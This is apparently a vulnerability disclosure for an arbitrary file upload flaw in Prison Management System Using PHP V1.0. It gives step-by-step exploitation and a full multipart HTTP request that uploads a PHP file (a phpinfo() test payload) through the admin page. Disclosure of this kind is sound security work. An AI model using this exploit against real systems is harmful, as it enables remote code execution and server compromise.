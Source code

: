 # Prison Management System Using PHP has arbitrary file upload vulnerability

BUG_Author:

AoBo Li

Affected version:

Prison Management System Using PHP V1.0
Vendor:

Fast5
Software:

https://www.sourcecodester.com/sql/17287/prison-management-system.html
Vulnerability File:

/Employee/edit-photo.php

/Admin/add-admin.php


Description:

**1. Vulnerability Description**

The application allows authenticated users to upload files to the server. However, the file upload mechanism does not properly validate the file types being uploaded. As a result, it is possible to upload executable files, which can then be executed on the server.

**2. Proof of Concept (PoC)**

The following steps demonstrate how to exploit the arbitrary file upload vulnerability:

1. **Log in as admin or user,if log in as admin goto add-admin.php, if log in as user goto edit-photo.php.they are same.**
2. **Navigate to the file upload feature.**
3. **Upload a malicious file with a disguised extension (e.g., 1.jpg).**
4. **Rename it to a malicious extension file (e.g., 1.php).**
5. **The application saves the file on the server without proper validation.**
6. **Access the uploaded file via a direct URL and execute it.**

![image-20240925204658976](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20240925204658976.png)

The data packet is as follows

```
POST /prison/Admin/add-admin.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------356316614838182701192715677466
Content-Length: 828
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/prison/Admin/add-admin.php
Cookie: PHPSESSID=jrvn8lh2tgi6mdfm6qlpuastm1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

-----------------------------356316614838182701192715677466
Content-Disposition: form-data; name="txtusername"

test
-----------------------------356316614838182701192715677466
Content-Disposition: form-data; name="txtfullname"

test
-----------------------------356316614838182701192715677466
Content-Disposition: form-data; name="txtpassword"

test
-----------------------------356316614838182701192715677466
Content-Disposition: form-data; name="txtphone"

test
-----------------------------356316614838182701192715677466
Content-Disposition: form-data; name="avatar"; filename="1.php"
Content-Type: image/png
<?php
phpinfo()>
?>
-----------------------------356316614838182701192715677466
Content-Disposition: form-data; name="btncreate"


-----------------------------356316614838182701192715677466--

```

![image-20240925205346343](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20240925205346343.png)

![image-20240925210016665](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20240925210016665.png)

![image-20240925205632083](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20240925205632083.png)

**3. Impact**

The impact of this vulnerability can be severe. An attacker can upload and execute arbitrary code on the server, leading to:

- Unauthorized access to the server.
- Data leakage or manipulation.
- Server compromise and potential lateral movement within the network.